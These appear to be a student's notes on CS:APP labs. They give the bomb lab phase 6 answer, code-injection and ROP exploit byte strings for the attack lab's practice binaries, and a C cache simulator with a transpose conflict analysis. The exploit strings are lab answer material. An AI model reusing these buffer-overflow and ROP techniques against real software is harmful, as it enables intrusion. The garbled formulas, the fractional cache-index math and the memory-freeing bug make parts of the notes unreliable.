;movslq, movsbl src, dst byte to int, sign-extend, if the ebx -> convert to single byte is 1, extend the sign bit
0x0000000000401138 <+68>: mov (%rsp,%rax,4),%eax ;eax = rsp + rax*4 = rsp + 1*4, move the input string right by 1, index will increase again now
0x000000000040113b <+71>: cmp %eax,0x0(%rbp) ;
0x000000000040113e <+74>: jne 0x401145 <phase_6+81> ;can not be equal, 1st and 2nd
0x0000000000401140 <+76>: callq 0x40143a <explode_bomb>
0x0000000000401145 <+81>: add $0x1,%ebx ;ebx = ebx + 1
0x0000000000401148 <+84>: cmp $0x5,%ebx ;cmp 5,ebx + 1
0x000000000040114b <+87>: jle 0x401135 <phase_6+65> ;jmp if ebx <= 5
0x000000000040114d <+89>: add $0x4,%r13 ;r13 +4, move to 2nd int
0x0000000000401151 <+93>: jmp 0x401114 <phase_6+32> ;
;32 - 93: go from each input, compare with make sure not higher than 6, and each int it will compare if it is the same as the rest of the ints. Make sure no repeated value appear, then in this case. the input 0,1,2,3,4,5,6
0x0000000000401153 <+95>: lea 0x18(%rsp),%rsi ;load last int to rsi
0x0000000000401158 <+100>: mov %r14,%rax ;rax = r14 = first int index
0x000000000040115b <+103>: mov $0x7,%ecx ;ecx = 0x7
0x0000000000401160 <+108>: mov %ecx,%edx ;edx = ecx = 0x7
0x0000000000401162 <+110>: sub (%rax),%edx ; edx = edx - rax = 7 - 1st int
0x0000000000401164 <+112>: mov %edx,(%rax) ; (rax) = edx
0x0000000000401166 <+114>: add $0x4,%rax ; (rax) = rax + 0x4
0x000000000040116a <+118>: cmp %rsi,%rax ; cmp last_int, rax= (7-1st int) + 0x4 = 11 - 1st int, compare the last int with the
0x000000000040116d <+121>: jne 0x401160 <phase_6+108> ;
;95 - 121: loop six values, use 7 to subtrace each int
0x000000000040116f <+123>: mov $0x0,%esi ;esi = 0
0x0000000000401174 <+128>: jmp 0x401197 <phase_6+163>
0x0000000000401176 <+130>: mov 0x8(%rdx),%rdx; rdx = rdx +8 = -32
;0x6032d8 <node1+8>: "\340\062`" , this is octal format, convert it to decimal = 224, 50,
0x000000000040117a <+134>: add $0x1,%eax ;eax = 2
0x000000000040117d <+137>: cmp %ecx,%eax ;cmp 2nd int with 2, if not equal, keep adding 1 until it equals the 2nd int.
0x000000000040117f <+139>: jne 0x401176 <phase_6+130>
0x0000000000401181 <+141>: jmp 0x401188 <phase_6+148> ;if equal, eax = ecx = 2nd int
;from 169
0x0000000000401183 <+143>: mov $0x6032d0,%edx ;if the value is 6 , edx = 76
0x0000000000401188 <+148>: mov %rdx,0x20(%rsp,%rsi,2) ;rsp + 2*rsi + 20 = 1st int + 20 = move 1 to the last int
0x000000000040118d <+153>: add $0x4,%rsi ;rsi = 0 +4
0x0000000000401191 <+157>: cmp $0x18,%rsi ;cmp if it reaches the end,
0x0000000000401195 <+161>: je 0x4011ab <phase_6+183> ;if not cont,
0x0000000000401197 <+163>: mov (%rsp,%rsi,1),%ecx ;rsp = (1st int + 0 *1) = ecx = 1st int, next loop go to 2nd int
0x000000000040119a <+166>: cmp $0x1,%ecx ;cmp 1, ecx, if it is not 6, it should be higher here
0x000000000040119d <+169>: jle 0x401183 <phase_6+143> ;jmp if ecx < 1, guess only if the input is 6 in this case.
0x000000000040119f <+171>: mov $0x1,%eax ;eax = 1
0x00000000004011a4 <+176>: mov $0x6032d0,%edx ;edx = 1
0x00000000004011a9 <+181>: jmp 0x401176 <phase_6+130>
;store each int into a node, 1st int ->node1, 2nd int ->node2, the node number corresponds the same value of the converted input
0x00000000004011ab <+183>: mov 0x20(%rsp),%rbx ; rbx = 1st int node number
0x00000000004011b0 <+188>: lea 0x28(%rsp),%rax ; rax = 2nd int node number
0x00000000004011b5 <+193>: lea 0x50(%rsp),%rsi ;end node
0x00000000004011ba <+198>: mov %rbx,%rcx ;rcx = rbx = 2nd int node
0x00000000004011bd <+201>: mov (%rax),%rdx ;rdx = value at node 2nd number 2, to rdx
0x00000000004011c0 <+204>: mov %rdx,0x8(%rcx) ;rcx = rbx, load the value of 2
0x00000000004011c4 <+208>: add $0x8,%rax ;rax increase by 1 byte
0x00000000004011c8 <+212>: cmp %rsi,%rax ;
0x00000000004011cb <+215>: je 0x4011d2 <phase_6+222>
0x00000000004011cd <+217>: mov %rdx,%rcx ;
0x00000000004011d0 <+220>: jmp 0x4011bd <phase_6+201>
; change the ptr orders based on the storing order. i think the purpose here is for the below steps, instead of using the rsp + 20/28, it can use pointer arithmatic to plus 8 since we reassign the order of the linked list.
0x00000000004011d2 <+222>: movq $0x0,0x8(%rdx) ;0 to the end?
0x00000000004011da <+230>: mov $0x5,%ebp ;rbp = 5
0x00000000004011df <+235>: mov 0x8(%rbx),%rax ;2nd node into rax
0x00000000004011e3 <+239>: mov (%rax),%eax ;eax = value
0x00000000004011e5 <+241>: cmp %eax,(%rbx) ;rbx is the first node, cmp the node value
0x00000000004011e7 <+243>: jge 0x4011ee <phase_6+250> ;1st > 2nd, else explode bomb
0x00000000004011e9 <+245>: callq 0x40143a <explode_bomb>
0x00000000004011ee <+250>: mov 0x8(%rbx),%rbx ;rbx index by 1, now go to 2nd
0x00000000004011f2 <+254>: sub $0x1,%ebp ;4
0x00000000004011f5 <+257>: jne 0x4011df <phase_6+235> ; need zf = 0
;basically compare the value in the node index, increase the node index by 8 every time, make sure the previous one is always greater, sort in descending order
;(gdb) x/24wx 0x6032d0
0x6032d0 <node1>: 0x0000014c = 332 0x00000001 0x006032e0 0x00000000
0x6032e0 <node2>: 0x000000a8 = 168 0x00000002 0x006032f0 0x00000000
0x6032f0 <node3>: 0x0000039c =924 0x00000003 0x00603300 0x00000000
0x603300 <node4>: 0x000002b3 = 691 0x00000004 0x00603310 0x00000000
0x603310 <node5>: 0x000001dd = 477 0x00000005 0x00603320 0x00000000
0x603320 <node6>: 0x000001bb = 443 0x00000006 0x00000000 0x00000000
;descending order. 3->4->5->6->1->2, and because we revert it by subtracting from 7, have to revert back
;4 3 2 1 6 5
0x00000000004011f7 <+259>: add $0x50,%rsp ;
0x00000000004011fb <+263>: pop %rbx
0x00000000004011fc <+264>: pop %rbp
0x00000000004011fd <+265>: pop %r12
0x00000000004011ff <+267>: pop %r13
0x0000000000401201 <+269>: pop %r14
0x0000000000401203 <+271>: retq
End of assembler dump.
Notes:
In x86-64 assembly, registers like %eax do not have a fixed memory address because they are part of the CPU's internal state. Instead, %eax is a 32-bit register within the CPU that can hold a value. When you perform an operation like mov 0x0(%r13), %eax, you are transferring a value from memory into the %eax register, not an address.
Storing Values: RAX can hold any integer value, which can be used for arithmetic operations, comparisons, or as a general-purpose register.
Pointer/Address Holder: RAX can store memory addresses, allowing it to be used as a pointer to access or manipulate data in memory.
Ans:
4 3 2 1 6 5
let's goooo
Lab3 - Attack lab(Code Injection and ROP attack)

Understanding the rdi Register and Parameter Passing
- Scalar Values (e.g., integers, floats):
- If the parameter is a scalar value (such as an integer or a float), the actual value is stored directly in the
rdiregister. - For example, if you pass an integer value
42to a function,rdiwill contain42. - Pointers (e.g., strings, arrays, structs):
- If the parameter is a pointer (such as a string, array, or a struct), the
rdiregister will contain the address of the memory location where the actual data is stored. - For example, if you pass a string
"hello"to a function,rdiwill contain the address of the first character of the string in memory.
Phase4
ROP attack -> in the code instruction set, each code segment that ends with the return (c3) can be named as gadget.
To design, the asm code can be followed from the previous phase2.
usual way is we can move the cookie to the stack, and move the stack to the rdi, and push the function address and return. In this case, since we are going to use the code section, we can use rax to pass the cookie.
So the ASM will be:
00000000004019a7 <addval_219>:
4019a7: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax
4019ad: c3 retq
00000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 retq
;4019a7 + 4 = 4019ab // ab 19 40
;pass the cookie as rax // fa 97 b9 59
;move rax,rdi // 4019a2 // a2 19 40
;then push the function of touch2 //ec 17 40
Summary:
- Starting the index at an address means the disassembler will interpret the bytes from that point as a complete instruction.
- The disassembler decodes each instruction in sequence until it reaches the end of the function or another stopping point.
- For
movor any other instructions, it decodes the entire instruction set starting from the given address.
Important Points from lab manual:
- Your exploit string must not contain byte value 0x0a at any intermediate position, since this is the ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to terminate the string.
- HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte ordering).
Phase5
The cookie in ASCII is: 35 39 62 39 39 37 66 61 00
Old way is to pass the cookie as an rax into the register and move it into the stack memory address and called the memory address.
\\\from phase_3, 0000000000000000 <.text>:
0: 48 c7 c7 a8 dc 61 55 mov $0x5561dca8,%rdi
7: 68 fa 18 40 00 pushq $0x4018fa
c: c3 retq
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 ;the stack address of the previous
35 39 62 39 39 37 66 61 ;store this cookie on the test stack
00
Idea is to make sure there is enough stack address that was able to get used in this case
;use below instructions to load the stack address of the rdi, rsi will be used to set as an offset
000000000000006a <add_xy>:
6a: f3 0f 1e fa endbr64
6e: 48 8d 04 37 lea (%rdi,%rsi,1),%rax
72: c3 retq
; From the farm.asm file, only the instruction movl ecx,esi is being found, so we can only use this and pass around the registers
; next find only the
mov edx, ecx
mov eax, edx
// after adding bias.
pop rax,
mov rax, rdi ;rdi will be the top address of the stack on test
mov rsp, rax
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
References:
https://www.jianshu.com/p/db731ca57342
https://zhuanlan.zhihu.com/p/60724948
https://blog.liblaf.me/2022/course-work/csapp/attack-lab/2022-04-23-phase-5.html
Lab4

Part1
Idea is to design sets -> cache_lines, dynamic allocate memory
Since we can only know the 2d array size after getting the size array from command line inputs, we have to dynamic allocate memory in this case.
struct and typedef in c
//Struct:
struct struct_name {
// Member variables (also called fields or members)
type1 member1;
type2 member2;
// ...
typeN memberN;
};
// Define a structure named 'Person' with members name, age, and height
struct Person {
char name[50];
int age;
float height;
};
struct Person {
// code
} person1, person2, p[20];
In both cases,
//person1 and person2 are struct Person variables
//p[] is a struct Person array of size 20.
// Declaring variables of type 'struct Person'
struct Person person1, person2;
//typedef
https://www.programiz.com/c-programming/c-structures

LRU counter logic
Initialize LRU counter to 0 -> valid bit is 0; free
how to determine, if there is a find
loop through each line to find smallest, if it is 0, directly assigned

booo, ez
Full Code
#include "cachelab.h"
#include <unistd.h>
#include <getopt.h>
#include <stdio.h>
#include <stdlib.h>
#include <math.h>
#define uint_32max 1 << 31;
// finish the block of getting the command arguments
struct cache_line{
int valid_bit;
int tag;
int LRU_counter;
}cache_line;
struct result{
int hit;
int miss;
int eviction;
}result;
typedef struct cache_line *cache_line_entry;
typedef cache_line_entry *cache_set_entry;
void usage(){
printf("Usage: ./csim-ref [-hv] -s <num> -E <num> -b <num> -t <file>\n");
printf("Options:\n");
printf(" -h Print this help message.\n");
printf(" -v Optional verbose flag.\n");
printf(" -s <num> Number of set index bits.\n");
printf(" -E <num> Number of lines per set.\n");
printf(" -b <num> Number of block offset bits.\n");
printf(" -t <file> Trace file.\n\n");
printf("Examples:\n");
printf(" linux> ./csim-ref -s 4 -E 1 -b 4 -t traces/yi.trace\n");
printf(" linux> ./csim-ref -v -s 8 -E 2 -b 4 -t traces/yi.trace\n");
}
void update_result(char I,unsigned int address,cache_set_entry cache,int sets,int E,int b,int v){
unsigned set_index_cast = (1 << sets) -1;
unsigned set_index = address >> b & set_index_cast;
unsigned tag = address >> (sets+b);
int evict_true = 1;
unsigned smallest_LRU= uint_32max; //first initliaze,
unsigned replaced_LRU_index;
unsigned largest_LRU = 0;
// printf("%d %d \n", set_index, tag);
// load or store, trigger once
for (int i = 0; i < E;i++){
if(cache[set_index][i].valid_bit == 0){
//if there is empty line, no need to evict
evict_true = 0;
replaced_LRU_index = i;
break;
}
else
{
if(cache[set_index][i].LRU_counter <= smallest_LRU){
smallest_LRU = cache[set_index][i].LRU_counter;
replaced_LRU_index = i;
}
}
}
for (int i = 0; i < E;i++){
if(cache[set_index][i].LRU_counter > largest_LRU){
largest_LRU = cache[set_index][i].LRU_counter;
}
}
for (int i = 0; i < E; i++)
{
if (cache[set_index][i].tag == tag && cache[set_index][i].valid_bit == 1)
{
// found
result.hit++;
if(v){
if (I != 'M')
{
printf(" hit\n");
}
else if (I == 'M')
{
printf(" hit");
}
}
// tmr question, how to handle LRU
cache[set_index][i].LRU_counter = largest_LRU + 1;
return;
}
}
//didn't find, miss++ and determine if need to evict
result.miss++;
if (evict_true)
{
if(v){
if(I == 'M'){
printf(" miss eviction");
}else{
printf(" miss eviction\n");
}
}
result.eviction++;
cache[set_index][replaced_LRU_index].tag = tag;
cache[set_index][replaced_LRU_index].valid_bit = 1;
cache[set_index][replaced_LRU_index].LRU_counter = largest_LRU + 1;
}
else
{
if(v){
if(I == 'M'){
printf(" miss");
}else{
printf(" miss\n");
}
}
cache[set_index][replaced_LRU_index].tag = tag;
cache[set_index][replaced_LRU_index].valid_bit = 1;
cache[set_index][replaced_LRU_index].LRU_counter = largest_LRU + 1;
}
}
void read_file(char* file,cache_set_entry cache,int sets,int E,int b,int v){
FILE *pFile;
char identifier;
unsigned address; //unsigned int
int size;
pFile = fopen(file, "r");
while (fscanf(pFile," %c %x,%d",&identifier,&address,&size)>0)
{
/* code */
if(identifier == 'L' || identifier =='S'){
if(v){
printf("%c %x,%d", identifier, address, size);
}
update_result(identifier, address, cache, sets, E, b,v);
}else if(identifier =='M'){
if(v){
printf("%c %x,%d", identifier, address, size);
}
update_result(identifier, address, cache, sets, E, b,v);
update_result('R', address, cache, sets, E, b,v);
}
// doing actual code here
}
fclose(pFile);
}
cache_set_entry cache_init(int sets,int E){
int e = pow(2, sets); // equivalent to 1 << sets;
// printf("%d", e);
cache_set_entry cache = (cache_set_entry)malloc(e * sizeof(cache_line_entry));
//first allocate the memory of sets
for (int i = 0; i < e;i++){
cache[i] = (cache_line_entry)calloc(E , sizeof(cache_line));
}
return cache;
}
void free_memory(cache_set_entry cache,int sets){
for (int i = 0; i < sets;i++){
free(cache[i]);
}
free(cache);
}
int main(int argc,char** argv)
{
//get the arguments
int opt, v = 0, s, e, b;
char* file;
cache_set_entry cache;
// the file initiliazer
while(-1 != (opt = getopt(argc,argv,"hvs:E:b:t:"))){
switch(opt){
case 'h':
usage();
return 0;
case 'v':
v = 1;
break;
case 's':
s = atoi(optarg);
break;
case 'E':
e = atoi(optarg);
break;
case 'b':
b = atoi(optarg);
break;
case 't':
file = (optarg);
// printf("%s",file);
break;
default:
usage();
break;
}
}
//allocate memory
//question, how to set the index bit in the cache?
//s is used to define
// cache[S][E], S = 2^s,
cache = cache_init(s,e);
// for (int i = 0; i < s;i++){
// for (int j = 0; j < e;j++){
// printf("%d %d \n",j, cache[i][j].valid_bit);
// }
// }
read_file(file,cache,s,e,b,v);
printSummary(result.hit, result.miss, result.eviction);
free_memory(cache,s);
return 0;
}
Part B:
1 kilobytes of cache, E =1, Block size = 32bytes = 2^5, S = 5, 32 sets
int = 4bytes, 32/4 = 8, it can fit 8ints,
32 x 32
Explain on why diagnose will cause the cache hit the same set
Memory Address to Cache Index Mapping
In a direct-mapped cache, the cache index is determined by the formula:
Index=(Memory Address/Block Size)%Number of Sets\text{Index} = (\text{Memory Address} / \text{Block Size}) \% \text{Number of Sets}Index=(Memory Address/Block Size)%Number of Sets
Given your cache parameters:
- Cache Size: 1 KB (1024 bytes)
- Block Size: 32 bytes
- Number of Sets: 32
Example Calculation: Address and Index for A[k][k]
For diagonal element A[k][k] in a 32x32 matrix:
- Memory Address Calculation:
- Base address of
A(assumed):Base Address(A) = 0x00000000 - Address of
A[k][k]: Address(A[k][k])=Base Address(A)+(k×32+k)×4\text{Address}(A[k][k]) = \text{Base Address}(A) + (k \times 32 + k) \times 4Address(A[k][k])=Base Address(A)+(k×32+k)×4 =0x00000000+(k×32+k)×4= 0x00000000 + (k \times 32 + k) \times 4=0x00000000+(k×32+k)×4 =(k×33)×4= (k \times 33) \times 4=(k×33)×4 =k×132= k \times 132=k×132 - Cache Index Calculation:
- Index=(k×132/32)%32\text{Index} = (k \times 132 / 32) \% 32Index=(k×132/32)%32
- =(k×4.125)%32= (k \times 4.125) \% 32=(k×4.125)%32
Example Calculation: Address and Index for B[k][k]
For diagonal element B[k][k] in a 32x32 matrix:
- Memory Address Calculation:
- Base address of
B(assumed):Base Address(B) = 0x00008000 - Address of
B[k][k]: Address(B[k][k])=Base Address(B)+(k×32+k)×4\text{Address}(B[k][k]) = \text{Base Address}(B) + (k \times 32 + k) \times 4Address(B[k][k])=Base Address(B)+(k×32+k)×4 =0x00008000+(k×32+k)×4= 0x00008000 + (k \times 32 + k) \times 4=0x00008000+(k×32+k)×4 =0x00008000+(k×33)×4= 0x00008000 + (k \times 33) \times 4=0x00008000+(k×33)×4 =0x00008000+k×132= 0x00008000 + k \times 132=0x00008000+k×132 - Cache Index Calculation:
- Index=((0x00008000+k×132)/32)%32\text{Index} = ((0x00008000 + k \times 132) / 32) \% 32Index=((0x00008000+k×132)/32)%32
- =((0x00008000/32)+(k×132/32))%32= ((0x00008000 / 32) + (k \times 132 / 32)) \% 32=((0x00008000/32)+(k×132/32))%32
- =(0x2000+k×4.125)%32= (0x2000 + k \times 4.125) \% 32=(0x2000+k×4.125)%32
Simplifying the Index Calculation
To see if A[k][k] and B[k][k] map to the same index, we need to examine the modulo operation:
- For
A[k][k]: - (k×4.125)%32(k \times 4.125) \% 32(k×4.125)%32
- For
B[k][k]: - The base address
0x00008000converts to 32768 in decimal. - (32768/32)=1024(32768 / 32) = 1024(32768/32)=1024
- 1024%32=01024 \% 32 = 01024%32=0
- Therefore, the index calculation for
B[k][k]simplifies to: (0+k×4.125)%32(0 + k \times 4.125) \% 32(0+k×4.125)%32 - =(k×4.125)%32= (k \times 4.125) \% 32=(k×4.125)%32
Conclusion
Both A[k][k] and B[k][k] indeed map to the same cache index because the addition of the base address 0x00008000 results in a zero modulo 32, effectively making the cache index calculation dependent only on the k \times 4.125 term for both matrices.
Cache Conflict Explanation
Since both A[k][k] and B[k][k] map to the same cache index, they will contend for the same cache line. When you read A[k][k] and then write B[k][k], the cache line for A gets evicted and replaced by the line for B. This causes a cache miss the next time you access A[k][k] or B[k][k].
64 x 64
https://www.cnblogs.com/liqiuhao/p/8026100.html?utm_source=debugrun&utm_medium=referral
https://zhuanlan.zhihu.com/p/387662272
https://zhuanlan.zhihu.com/p/42754565
https://zhuanlan.zhihu.com/p/79058089